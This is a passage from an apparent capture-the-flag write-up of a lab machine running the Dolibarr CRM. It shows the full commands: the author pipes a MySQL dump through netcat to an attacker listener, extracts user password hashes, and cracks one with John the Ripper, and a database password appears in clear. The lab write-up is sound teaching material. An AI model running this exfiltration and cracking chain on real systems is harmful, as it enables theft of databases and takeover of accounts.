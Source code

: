 ```bash
//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
$dolibarr_main_distrib='standard';
```

Username and password found for the local database. And checking running ports 3306 leans towards mysql. I tried to login but the session froze a couple times so I decided to export the database and read it locally.

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ mysqldump -u dolibarrowner -p dolibarr | nc 10.10.14.7 8888
<p -u dolibarrowner -p dolibarr | nc 10.10.14.7 8888            
Enter password: serverfun2$2023!!
mysqldump: Error: 'Access denied; you need (at least one of) the PROCESS privilege(s) for this operation' when trying to dump tablespaces
```

```bash
nc -nvlp 8888 | tee mysql.dump

Listening on 0.0.0.0 8888
Connection received on 10.10.11.11 47072
-- MySQL dump 10.13  Distrib 8.0.36, for Linux (x86_64)
--
-- Host: localhost    Database: dolibarr
-- ------------------------------------------------------
-- Server version	8.0.36-0ubuntu0.20.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!50503 SET NAMES utf8mb4 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
```

```bash
cat mysql.dump | grep user

INSERT INTO `llx_user` VALUES (1,0,'',NULL,1,1,0,'2024-05-13 13:21:56','2024-05-13 20:21:56',NULL,NULL,'dolibarr',NULL,NULL,'$2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm',NULL,NULL,'','','SuperAdmin','','','','',NULL,NULL,NULL,NULL,'','','','','','','','','null',NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,'','',NULL,'2024-05-15 09:57:04','2024-05-13 23:23:59',NULL,NULL,NULL,'10.10.14.31','10.10.14.41',NULL,'',NULL,1,NULL,NULL,'',NULL,0,'',0,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,'',NULL),(2,1,'',NULL,0,1,0,'2024-05-13 13:24:01','2024-05-15 16:58:40',NULL,NULL,'admin',NULL,NULL,'$2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96',NULL,'yr6V3pXd9QEI',NULL,'','admin','','','','',NULL,NULL,NULL,NULL,'','','','','','','','','[]',NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,'','',NULL,'2024-05-31 18:14:57','2024-05-31 17:41:01',NULL,NULL,NULL,'10.10.14.7','10.10.14.7',NULL,'',NULL,1,NULL,NULL,'',NULL,0,'',0,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,'',NULL);
```

```bash
john hash --wordlist /opt/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin            (?)
1g 0:00:00:15 DONE (2024-05-31 21:08) 0.06622g/s 188.3p/s 188.3c/s 188.3C/s Smokey..barnyard
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
